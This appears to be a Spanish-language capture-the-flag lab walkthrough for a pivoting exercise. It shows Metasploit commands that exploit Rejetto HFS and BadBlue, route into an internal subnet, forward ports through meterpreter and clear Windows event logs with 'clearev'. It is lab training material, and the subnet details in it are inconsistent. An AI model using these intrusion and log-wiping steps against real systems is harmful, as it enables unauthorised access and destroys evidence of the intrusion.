# Pivoting

**Clearing Windows Event Logs**

Básicamente explotar un servicio vulnerable y usar con metasploit el comando
```bash
clearev
```



**Objective:** Exploit vulnerabilities in the target machines to gain access and retrieve a flag.
The target machines will be accessible at **demo1.ine.local** and **demo2.ine.local**.



Vemos un HFS en el puerto 80

Usaremos el exploit *windows/http/rejetto_hfs_exec*



Entramos a *C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs*
WIN-OMCNBKR66MN\Administrator

Vemos que en principio el demo2 no es accesible desde nuestro kali



Tendremos que hacer pivoting porque será accesible desde demo1

Vemos que solo tenemos una interfaz, la **Ethernet 3**



Sabemos que demo2 está en la misma red que demo1, por lo que estará en la **10.2.16.0/24**

Agregaremos la ruta a la red
```bash
run autorute -s 10.2.22.0/20
```

es /20 porque la máscara de red es 255.255.240.0



Ahora podremos acceder a esta nueva subred desde metasploit para escanear a demo2

Vamos a cambiarle el nombre a la sesión para saber que es **demo1**
```bash
sessions -n demo1 -i 1
```



Ahora usaremos un módulo de metasploit para escanear puertos tcp
*auxiliary/scanner/portscan/tcp*
```bash
set RHOST 10.2.30.174
```



Vamos a hacer Local Port Forwarding del puerto 80 a nuestra máquina kali con meterpreter





```bash
portfwd add -l 1234 -p 80 -r 10.2.30.174
```



Ahora el puerto **1234** de nuestro *kali localhost* será el **80** de *demo2*
```bash
porfwd list
```



Volvemos a msfconsole y vamos escanear el puerto 1234 de nuestra máquina
```bash
nmap -sV -sS -p 1234 localhost
```



Vemos un badblue que es vulnerable

Cargamos el exploit *windows/http/badblue_passthru*
```bash
Set RHOSTS demo2.ine.local
```

Ahora demo2.ine.local sí será accesible desde msfconsole por el routeo que hemos hecho de la red *10.2.22.0/20*  anteriormente

Es MUY importante cambiar el payload ya que el default de *reverse_tcp* no creará sesión
```bash
search payload windows meterpreter bind_tcp
```

*payload/windows/meterpreter/bind_tcp*



Accedemos al sistema



ATTACKDEFENSE\Administrator

Vemos la flag


